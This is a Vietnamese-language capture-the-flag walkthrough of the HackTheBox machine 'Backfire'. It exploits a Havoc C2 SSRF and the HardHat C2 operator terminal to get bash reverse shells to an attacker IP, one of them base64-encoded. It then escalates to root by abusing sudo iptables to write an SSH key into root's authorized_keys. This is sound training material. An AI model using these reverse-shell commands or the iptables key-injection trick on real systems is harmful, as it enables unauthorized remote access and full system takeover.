


<p align="center"></p>

# Backfire Hackthebox
## Nmap, 
### Nmap
```
sudo nmap -sCV -nP -vv -oA nmap/output backfire.htb
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
PORT     STATE    SERVICE  REASON              VERSION
22/tcp   open     ssh      syn-ack ttl 63      OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 7d:6b:ba:b6:25:48:77:ac:3a:a2:ef:ae:f5:1d:98:c4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuxaL9aCVxiQGLRxQPezW3dkgouskvb/BcBJR16VYjHElq7F8C2ByzUTNr0OMeiwft8X5vJaD9GBqoEul4D1QE=
|   256 be:f3:27:9e:c6:d6:29:27:7b:98:18:91:4e:97:25:99 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2oT7Hn4aUiSdg4vO9rJIbVSVKcOVKozd838ZStpwj8
443/tcp  open     ssl/http syn-ack ttl 63      nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: 404 Not Found
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=127.0.0.1/organizationName=DEBUG INC/stateOrProvinceName=Colorado/countryName=US/streetAddress=/postalCode=1814/localityName=Denver
| Subject Alternative Name: IP Address:127.0.0.1
| Issuer: commonName=127.0.0.1/organizationName=DEBUG INC/stateOrProvinceName=Colorado/countryName=US/streetAddress=/postalCode=1814/localityName=Denver
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-05-28T03:23:57
| Not valid after:  2028-05-27T03:23:57
| MD5:   5305:d8e4:8ace:ee35:c76f:4271:d38c:722e
| SHA-1: f6c4:d719:ca58:4a16:db87:9c90:19a5:6a22:4e6e:211d
| -----BEGIN CERTIFICATE-----
| MIID4zCCAsugAwIBAgIRAM2WYXSU0aNwndKTFSjtdPAwDQYJKoZIhvcNAQELBQAw
| czELMAkGA1UEBhMCVVMxETAPBgNVBAgTCENvbG9yYWRvMQ8wDQYDVQQHEwZEZW52
| ZXIxCTAHBgNVBAkTADENMAsGA1UEERMEMTgxNDESMBAGA1UEChMJREVCVUcgSU5D
| MRIwEAYDVQQDEwkxMjcuMC4wLjEwHhcNMjUwNTI4MDMyMzU3WhcNMjgwNTI3MDMy
| MzU3WjBzMQswCQYDVQQGEwJVUzERMA8GA1UECBMIQ29sb3JhZG8xDzANBgNVBAcT
| BkRlbnZlcjEJMAcGA1UECRMAMQ0wCwYDVQQREwQxODE0MRIwEAYDVQQKEwlERUJV
| RyBJTkMxEjAQBgNVBAMTCTEyNy4wLjAuMTCCASIwDQYJKoZIhvcNAQEBBQADggEP
| ADCCAQoCggEBAJyIA3Lpt4co3l6cLYMbjxIp+x2s6mPpkkkLFvwe8o2yEl90GDHD
| rt9g22Ny6J+fwl7coqikn9e0qs+El9AGgFQjtW8ttI5/NThO4xaBdlJzlcn7PsCj
| SDnxhfAJ/9W0cGvUPZBeuHjc2iHZzjEuMGgu5yT8MlTWysYH+O7ZIU1P3rAhLKR5
| RHp0eIEjHSdusZO9wSaHON7P2KGGaSOclzY0Vm2TZ0vltlmJzfQWbE9wRcxOiB7Y
| qxiCP+09FGXsTF8iY+amcIoUlec/GnBGDAmEAUmcgo59cEyNjQsop/EqPwaSXmQd
| JWr7NcpIwa4NILpYfUjR/EJDsO24EORQXfsCAwEAAaNyMHAwDgYDVR0PAQH/BAQD
| AgKkMB0GA1UdJQQWMBQGCCsGAQUFBwMBBggrBgEFBQcDAjAPBgNVHRMBAf8EBTAD
| AQH/MB0GA1UdDgQWBBRHDR2oomhZpgrA9BITkWKag2aj9TAPBgNVHREECDAGhwR/
| AAABMA0GCSqGSIb3DQEBCwUAA4IBAQCOVkPyBAP2fHAwNZy5r4l4ydSmIALaMNYY
| ExHPrhwgqJvwo55ITnQiETVnx0uspGUDo4VH5HmP6xthPyY4F9eantaAIt4twPla
| K5NBjrKZldnYLRRncyB6iuTpTz4fY7dHMXgM5RjHigwfnx2g7dVPn7uL4l1Qfn7K
| hNuDPHYj0ayqgw6DLxDhzVEV6TKR6fojQvCcfI1y0AX2gtC6FdK6wlxjpzIIlCFQ
| cOFZQSRySfySIK9mvfKIqRzVEoVuo/v/YDO/lYmDiDPoOzilI8PxlhQ0prv+A2WU
| AkD7l8ZKnqxh5biFzRB5PUXg+j4LZERZBkgQKacgt9BDm32vnN7L
|_-----END CERTIFICATE-----
5000/tcp filtered upnp     port-unreach ttl 63
8000/tcp open     http     syn-ack ttl 63      nginx 1.22.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.22.1
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1559  17-Dec-2024 12:31  disable_tls.patch
| 875   17-Dec-2024 12:34  havoc.yaotl
|_
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

### Mở trang backfire:443
<p align="center"></p>
Thấy có header `X-Havoc` 

### Mở trang backfire:8000
<p align="center"></p>
tải về và kiểm tra

### Khai thác Havoc-C2-SSRF
Tham khảo PoC [link](https://github.com/chebuya/Havoc-C2-SSRF-poc) sau

#### Tạo môi trường ảo bằng python
```
python3 -m venv .venv
```
#### Chạy file python exploit.py đã modify
Tạo mã reverse shell trên base64
```
echo -n 'bash -i  >& /dev/tcp/10.10.14.54/9001  0>&1' | base64 -w 
0
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTQvOTAwMSAgMD4mMQ==
</pre>
Lắng nghe cổng 9001 và chạy file `exploit.py`
```
python3 exploit.py -i 127.0.0.1 -p 40056 -t https://backfire.htb -c "echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTQvOTAwMSAgMD4mMQ== | base64 -d | bash"
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
listening on [any] 9001 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.49] 39250
bash: cannot set terminal process group (20181): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$
</pre>
### Khai thác HardheadC2
 Dựng docker-compose [git](https://github.com/DragoQCC/CrucibleC2.git) vào trang admin để có cookie session

```
 docker-compose up -d
```
#### Sau khi có session cookie thực hiện forward port ra ngoài vẫn giữ session cookie đã tạo cho ở docker compose
```
https://github.com/DragoQCC/CrucibleC2.git
```
Sau đó đăng ki người dùng với user và role operator
#### Login vào và vảo url https://127.0.0.1:7096/ImplantInteract
thực hiện chạy terminal với cú pháp 
```
bash -c 'bash -i >& /dev/tcp/10.10.14.54/9001 0>&1'
```
#### Thực hiện add public key
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.49] 36374
bash: cannot set terminal process group (10989): Inappropriate ioctl for device
bash: no job control in this shell
sergej@backfire:~/HardHatC2/HardHatC2Client$ cd ~/.ssh
</pre>
#### Ssh user sergej
```
ssh -i sonpt sergej@backfire.htb
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
sergej@backfire:~$ 
</pre>
Kiểm tra thấy iptables có quyền root
#### Chạy lệnh sau để add key
```
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN9VBilDWwPuZYt26kWWS0VU1IDJvSkYOJqpW0p6MQ06 sonpt@meeyland.com\n'
sudo iptables-save -f /root/.ssh/authorized_keys
```
#### ssh với root
```
ssh -i sonpt root@backfire.htb
Warning: Identity file sonpt not accessible: No such file or directory.
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
root@backfire:~# cat root.txt
```

